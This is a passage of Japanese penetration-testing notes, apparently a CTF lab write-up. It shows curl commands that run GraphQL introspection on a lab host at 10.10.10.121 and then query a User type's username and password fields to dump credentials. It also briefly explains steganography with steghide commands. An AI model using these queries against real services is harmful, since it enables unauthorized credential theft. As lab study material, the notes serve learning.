        }
      ]
    }
  }
}
```
### 型の情報を取得
以上の手順でクエリフィールドの名前と型を取得できたので、続いて取得した型を指定してその詳細を取得する。
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \\"User\\") { name fields { name } } }" }' | jq
```
クエリ
```bash
{
  __type(name: "User") {
    name
    fields {
      name
    }
  }
}
```
レスポンス
```bash
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "username"
        },
        {
          "name": "password"
        }
      ]
    }
  }
}
```
### フィールドから情報を取得
2つめのリクエストでフィールド名 `user` , 3つめのリクエストで型の形式を取得したので、フィールドの中身を取得する。
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ user { username password } }" }' | jq
```
クエリ
```bash
{
  user {
    username
    password
  }
}
```
## ステガノグラフィー
画像ファイルの中身の一部を微妙に書き換えてデータを隠す行為。
例えばLSB法では、画像のピクセルのRGBビットの最下位ビットを一つづつ書き換えてデータを埋め込むことで、人間の目にはほぼわからない形でデータを埋め込むことができる。
### steghide
ステガノグラフィーを行うツール。
```bash
# image.jpgという画像にsecret.txtのデータを隠してパスワードを設定
steghide embed -cf image.jpg -ef secret.txt -p password123

# image.jpgから隠されたデータを抽出
steghide extract -sf image.jpg -p password123
```